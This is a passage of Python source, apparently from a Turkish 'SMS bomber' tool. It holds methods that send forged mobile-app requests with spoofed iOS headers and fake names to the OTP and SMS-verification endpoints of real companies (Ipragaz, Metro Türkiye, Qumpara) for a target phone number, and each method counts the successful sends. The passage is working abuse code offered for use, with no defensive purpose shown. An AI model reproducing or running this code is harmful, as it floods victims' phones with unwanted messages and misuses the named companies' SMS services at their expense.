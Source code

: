                 raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> hizlieczaprodapi.hizliecza.net")


    #ipragaz.com.tr
    def Ipragaz(self):
        try:
            url = "https://ipapp.ipragaz.com.tr:443/ipragazmobile/v2/ipragaz-b2c/ipragaz-customer/mobile-register-otp"
            headers = {"Content-Type": "application/json", "X-Api-Token": "", "Authorization": "", "App-Version": "1.3.9", "App-Lang": "en", "Accept": "*/*", "App-Name": "ipragaz-mobile", "Os": "ios", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9", "Accept-Encoding": "gzip, deflate", "User-Agent": "ipragaz-mobile/1.3.9 (com.ipragaz.ipapp; build:41; iOS 15.7.7) Alamofire/5.6.4", "App-Build": "41", "Os-Version": "15.7.7", "Udid": "73AD2D6E-9FC7-40C1-AFF3-88E67591DCF8", "Connection": "close"}
            json={"birthDate": "2/7/2000", "carPlate": "31 ABC 31", "mobileOtp": "f32c79e65cc684a14b15dcb9dc7e9e9d92b2f6d269fd9000a7b75e02cfd8fa63", "name": "Memati Bas", "otp": "", "phoneNumber": self.phone, "playerId": ""}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> ipapp.ipragaz.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> ipapp.ipragaz.com.tr")


    #metro-tr.com
    def Metro(self):
        try:
            url = "https://feature.metro-tr.com:443/api/mobileAuth/validateSmsSend"
            headers = {"Accept": "*/*", "Content-Type": "application/json; charset=utf-8", "Accept-Encoding": "gzip, deflate", "Applicationversion": "2.1.1", "Applicationplatform": "2", "User-Agent": "Metro Turkiye/2.1.1 (com.mcctr.mobileapplication; build:1; iOS 15.7.7) Alamofire/2.1.1", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9", "Connection": "close"}
            json={"methodType": "2", "mobilePhoneNumber": f"+90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["status"] == "success":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> feature.metro-tr.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> feature.metro-tr.com")

    
    #qumpara.com
    def Qumpara(self):
        try:
            url = "https://tr-api.fisicek.com:443/v1.3/auth/getOTP"
            headers = {"Accept": "application/json", "Content-Type": "application/json", "Accept-Encoding": "gzip, deflate", "User-Agent": "qumpara/4.2.53 (iPhone; iOS 15.7.7; Scale/3.00)", "Accept-Language": "en-TR;q=1, tr-TR;q=0.9"}
            json={"msisdn": f"+90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> tr-api.fisicek.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> tr-api.fisicek.com")
